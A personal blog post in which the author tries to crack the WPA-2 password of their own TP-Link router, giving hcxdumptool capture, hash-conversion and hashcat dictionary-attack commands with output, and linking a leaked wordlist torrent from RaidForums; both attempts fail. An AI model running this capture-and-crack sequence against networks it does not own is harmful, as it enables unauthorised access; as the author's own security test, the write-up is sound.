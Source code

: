 ```yaml
---
title: "Wifi Hacking"
date: 2022-07-12T16:30:43+01:00
tags:
    - Hacking
category: 
    - blog
keywords:
    - Hacking
    - Wifi
    - Security
draft: false
---
```



## Prelude

Everywhere online, i have heard that wifi was insecure.

Posts talking about WEP and WPA being insecure. WPA-2 being better but still flawed.
I have decided to try and hack my own wifi router to see whether it really is insecure

### Setup

I am using the tp-link archer VR600 v2 as my router with WPA-2 wifi encryption.
I'll be executing my attack from my Arch Linux Laptop

## Hacking my own wifi

After looking around online, I've discovered the hashcat [cracking wpawpa2 wiki article](https://hashcat.net/wiki/doku.php?id=cracking_wpawpa2)
and I'll be following along as a guide.

As I went along, I worked on a script for hacking my wifi to allow for easy re-execution

### Disabling wifi and and enabling the wifi snooper

```bash
#!/usr/bin/env bash

# Disable wifi
sudo systemctl stop wpa_supplicant
# start monitor tool
sudo hcxdumptool -i wlan0 -o dumpfile.pcapng --active_beacon --enable_status=15
# Start wifi
sudo systemctl start wpa_supplicant
```

Enabling wifi and scanning for packets was quite simple.
All you had to do, is install `hcxdumptool` and run the aforementioned commands.
It took roughly 10-15 mins till a `PMKID`or `EAPOL MESSAGE` packet was detected on the network

once the a packet has been found, you can extract the hash of your wpa2 wifi password.

```bash
# Convert traffic
hcxpcapngtool -o hash.hc22000 dumpfile.pcapng
```

The hash is a `WPA-PBKDF2-PMKID+EAPOL` according to the [hashcat wiki](https://hashcat.net/wiki/doku.php?id=example_hashes).

This hash would be vunrable to a veriety of different attack methods:

- Dictionary attack
- Brute-Force attack
- Rule-based attack

I will be attempting a dictionary attack as it would execute in the fastest time

### hashcracking attempt 1

After installing `hashcat` and `opencl` in accordance with [the arch wiki](https://wiki.archlinux.org/title/GPGPU)
I started my first attempt with cracking the hash.

I downloaded a simple [wordlist](https://wpa-sec.stanev.org/dict/cracked.txt.gz) and attempted my first crack
Unfortunatly, I immediately came across an error.

```bash
$ hashcat -m 22000 hash.hc22000 cracked.txt.gz

resulted in this error;
clBuildProgram(): 
    CL_OUT_OF_HOST_MEMORY * Device #1: Kernel /usr/share/hashcat/OpenCL/shared.cl build failed.
```

After an hour of frantic googling online, i finally decided to restart my system and it immediately worked. :grimacing:

```bash
$ hashcat
hashcat (v6.2.5) starting

...

Hashes: 1 digests; 1 unique digests, 1 unique salts
Bitmaps: 16 bits, 65536 entries, 0x0000ffff mask, 262144 bytes, 5/13 rotates
Rules: 1

...

Dictionary cache built:
* Filename..: ./cracked.txt.gz
* Passwords.: 368163
* Bytes.....: 3992189
* Keyspace..: 368163
* Runtime...: 0 secs

Approaching final keyspace - workload adjusted.

Session..........: hashcat
Status...........: Exhausted
Hash.Mode........: 22000 (WPA-PBKDF2-PMKID+EAPOL)
Hash.Target......: hash.hc22000
Time.Started.....: Tue Jul 12 18:20:18 2022 (9 secs)
Time.Estimated...: Tue Jul 12 18:20:27 2022 (0 secs)
Kernel.Feature...: Pure Kernel
Guess.Base.......: File (./cracked.txt.gz)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:    42026 H/s (0.48ms) @ Accel:16 Loops:32 Thr:32 Vec:1
Recovered........: 0/1 (0.00%) Digests
Progress.........: 368163/368163 (100.00%)
Rejected.........: 0/368163 (0.00%)
Restore.Point....: 368163/368163 (100.00%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:0-1
Candidate.Engine.: Device Generator
Candidates.#1....: kunanesenanuk -> leprechaun6
Hardware.Mon.#1..: N/A

...
```

Sadly this basic dictionary attack has failed. We ran though every word in the wordlsit and not a single word matched our password hash.
This suggests that a complicated password would be more secure than a simple password such as once which is on this relatively short wordlist.

### hashcracking attempt 2

After the unsuccessful dictionary attack, i decided to get a bigger and better wordlist.
I went with the [rockyou2021.txt from kys234 on RaidForums](magnet:?xt=urn:btih:JEQMEEFTBXT35RJ3GUTGXU7HP3HBU5P6&dn=rockyou2021.txt%20dictionary%20from%20kys234%20on%20RaidForums&tr=udp%3A%2F%2Ftracker.openbittorrent.com%3A6969%2Fannounce).
This is a massive overkill wordlist and after waiting hours for the download+decompressing.

Once finished, the wordlist was around 92GB and roughly 8 billion words long.

Rather than wait for a hashcat to go though the entire wordlist, i grep-ed the wordlist for my wifi password.
After 3 mins, the command resulted in nothing. This seams to show that my wifi password is secure.

## Conclusion

It seams to me that WPA-2 isnt actually as insecure as it would people online would lead you to believe.
As long as you have a secure enough password, it shouldnt be a simple processs hacking into someones WPA-2 wifi network.

Of course, ive only explored one wifi hacking method so far and im aware there are plenty of other methods

